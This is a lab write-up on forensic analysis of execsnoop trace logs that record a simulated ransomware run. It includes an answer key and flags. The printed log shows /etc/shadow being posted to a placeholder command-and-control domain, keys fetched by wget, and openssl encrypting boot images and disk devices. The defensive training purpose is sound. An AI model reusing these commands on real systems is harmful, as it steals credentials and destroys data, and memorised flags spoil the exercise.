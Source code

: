 #### 5. Execsnoop: Trace Analysis

----

Performance monitoring and tracking tools can provide a wealth of information about a running system. In some cases, they can help identify anomalies which could have been caused by a security incident.

----

In this lab, we will analyze [`Execsnoop script's`](https://github.com/iovisor/bcc/blob/master/tools/execsnoop.py) trace logs to unearth suspicious activity. Please start the lab, answer the below questions and submit the flags to verify:

- The ransomware contacts the Command-and-Control server to register and fetch the encryption keys. What is the domain name of the Command-and-Control server?

```sh
root@attackdefense:~# less logs
Tracing exec()s. Ctrl-C to end.
Instrumenting sys_execve
   PID   PPID ARGS
 13628  13624 mawk -W interactive -v o=1 -v opt_name=0 -v name= [...]
 13629  13627 cat -v trace_pipe
 13632  88705 sudo python 1-execsnoop.py
 13633  13632 python 1-execsnoop.py
 13634  13633 nslookup some-random-domain.dev.local
 13635  13633 curl some-random-domain.dev.local?activate=true
 13636  13633 wget -O /root/.hidden/keys some-random-domain.dev.local/getKeys?ip=192.168.1.19
 13637  13633 curl -F data='@/etc/shadow' some-random-domain.dev.local
 13638  13633 whoami
 13639  13633 openssl enc -aes-256-cbc -salt -in /vmlinuz -out /vmlinuz.locked -pass: file:/root/.hidden/keys
 13640  13633 openssl enc -aes-256-cbc -salt -in /vmlinuz.old -out /vmlinuz.old.locked -pass: file:/root/.hidden/keys
 13641  13633 openssl enc -aes-256-cbc -salt -in /initrd.img.old -out /initrd.img.old.locked -pass: file:/root/.hidden/keys
 13642  13633 openssl enc -aes-256-cbc -salt -in /initrd.img -out /initrd.img.locked -pass: file:/root/.hidden/keys
 13643  13633 nslookup another-random-domain.dev.local
 13644  13633 curl -F data='@/root/.invisible/status' some-random-domain.dev.local
 13645  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa7 -out /dev/vcsa7.locked -pass: file:/root/.hidden/keys
 13646  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs7 -out /dev/vcs7.locked -pass: file:/root/.hidden/keys
 13647  13633 openssl enc -aes-256-cbc -salt -in /dev/dvd -out /dev/dvd.locked -pass: file:/root/.hidden/keys
 13648  13633 openssl enc -aes-256-cbc -salt -in /dev/cdrw -out /dev/cdrw.locked -pass: file:/root/.hidden/keys
 13649  13633 openssl enc -aes-256-cbc -salt -in /dev/cdrom -out /dev/cdrom.locked -pass: file:/root/.hidden/keys
 13650  13633 openssl enc -aes-256-cbc -salt -in /dev/vsock -out /dev/vsock.locked -pass: file:/root/.hidden/keys
 13651  13633 openssl enc -aes-256-cbc -salt -in /dev/vmci -out /dev/vmci.locked -pass: file:/root/.hidden/keys
 13652  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa6 -out /dev/vcsa6.locked -pass: file:/root/.hidden/keys
 13653  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs6 -out /dev/vcs6.locked -pass: file:/root/.hidden/keys
 13654  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa5 -out /dev/vcsa5.locked -pass: file:/root/.hidden/keys
 13655  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs5 -out /dev/vcs5.locked -pass: file:/root/.hidden/keys
 13656  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa4 -out /dev/vcsa4.locked -pass: file:/root/.hidden/keys
 13657  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs4 -out /dev/vcs4.locked -pass: file:/root/.hidden/keys
 13658  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa3 -out /dev/vcsa3.locked -pass: file:/root/.hidden/keys
 13659  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs3 -out /dev/vcs3.locked -pass: file:/root/.hidden/keys
 13660  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa2 -out /dev/vcsa2.locked -pass: file:/root/.hidden/keys
 13661  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs2 -out /dev/vcs2.locked -pass: file:/root/.hidden/keys
 13662  13633 openssl enc -aes-256-cbc -salt -in /dev/vhost-vsock -out /dev/vhost-vsock.locked -pass: file:/root/.hidden/keys
 13663  13633 openssl enc -aes-256-cbc -salt -in /dev/vhost-net -out /dev/vhost-net.locked -pass: file:/root/.hidden/keys
 13664  13633 openssl enc -aes-256-cbc -salt -in /dev/uhid -out /dev/uhid.locked -pass: file:/root/.hidden/keys
 13665  13633 openssl enc -aes-256-cbc -salt -in /dev/vhci -out /dev/vhci.locked -pass: file:/root/.hidden/keys
 13666  13633 openssl enc -aes-256-cbc -salt -in /dev/userio -out /dev/userio.locked -pass: file:/root/.hidden/keys
 13667  13633 openssl enc -aes-256-cbc -salt -in /dev/btrfs-control -out /dev/btrfs-control.locked -pass: file:/root/.hidden/keys
 13668  13633 openssl enc -aes-256-cbc -salt -in /dev/cuse -out /dev/cuse.locked -pass: file:/root/.hidden/keys
 13669  13633 openssl enc -aes-256-cbc -salt -in /dev/log -out /dev/log.locked -pass: file:/root/.hidden/keys
 13670  13633 openssl enc -aes-256-cbc -salt -in /dev/initctl -out /dev/initctl.locked -pass: file:/root/.hidden/keys
 13671  13633 openssl enc -aes-256-cbc -salt -in /dev/autofs -out /dev/autofs.locked -pass: file:/root/.hidden/keys
 13672  13633 openssl enc -aes-256-cbc -salt -in /dev/sda5 -out /dev/sda5.locked -pass: file:/root/.hidden/keys
 13673  13633 openssl enc -aes-256-cbc -salt -in /dev/sda2 -out /dev/sda2.locked -pass: file:/root/.hidden/keys
 13674  13633 openssl enc -aes-256-cbc -salt -in /dev/sda1 -out /dev/sda1.locked -pass: file:/root/.hidden/keys
 13675  13633 openssl enc -aes-256-cbc -salt -in /dev/sg2 -out /dev/sg2.locked -pass: file:/root/.hidden/keys
 13676  13633 openssl enc -aes-256-cbc -salt -in /dev/sda -out /dev/sda.locked -pass: file:/root/.hidden/keys
 13677  13633 openssl enc -aes-256-cbc -salt -in /dev/fb0 -out /dev/fb0.locked -pass: file:/root/.hidden/keys
 13678  13633 openssl enc -aes-256-cbc -salt -in /dev/hidraw0 -out /dev/hidraw0.locked -pass: file:/root/.hidden/keys
 13679  13633 openssl enc -aes-256-cbc -salt -in /dev/sg1 -out /dev/sg1.locked -pass: file:/root/.hidden/keys
 13680  13633 openssl enc -aes-256-cbc -salt -in /dev/sr1 -out /dev/sr1.locked -pass: file:/root/.hidden/keys
 13681  13633 openssl enc -aes-256-cbc -salt -in /dev/sg0 -out /dev/sg0.locked -pass: file:/root/.hidden/keys
 13682  13633 openssl enc -aes-256-cbc -salt -in /dev/sr0 -out /dev/sr0.locked -pass: file:/root/.hidden/keys
 13683  13633 openssl enc -aes-256-cbc -salt -in /dev/rtc -out /dev/rtc.locked -pass: file:/root/.hidden/keys
```

```
some-random-domain.dev.local
```

- What is the password used for encrypting the files?

```sh
root@attackdefense:~# cat /root/.hidden/keys
a53d2e081e92b6cb082a2ce428929a4d
root@attackdefense:~#
```

- Which encryption scheme is used to encrypt the files?

```
aes-256-cbc
```

- The ransomware periodically tries to resolve the IP address of a kill-switch server. What is its domain name?

```
another-random-domain.dev.local
```

- The ransomware prepares a status report file and sends it to the Command-and-Control server. Provide the full path of the status file.

```
/root/.invisible/status
```

- Retrieve the flag kept in the status report file.

```sh
root@attackdefense:~# cat /root/.invisible/status
-== RansomLocker Report ==-

Encryption Status:      100% complete
Completion Time:        13:00:08 UTC
HOST:                   192.168.1.19
FLAG:                   02bf7f5ce8edca8813951916c5e26cc6
root@attackdefense:~#
```

----

###### Reference

- [`Execsnoop script`](https://github.com/iovisor/bcc/blob/master/tools/execsnoop.py)
- [`Execsnoop Examples`]
(https://github.com/iovisor/bcc/blob/master/tools/execsnoop_example.txt)
- [`BCC Tools`](https://github.com/iovisor/bcc)

----

EOF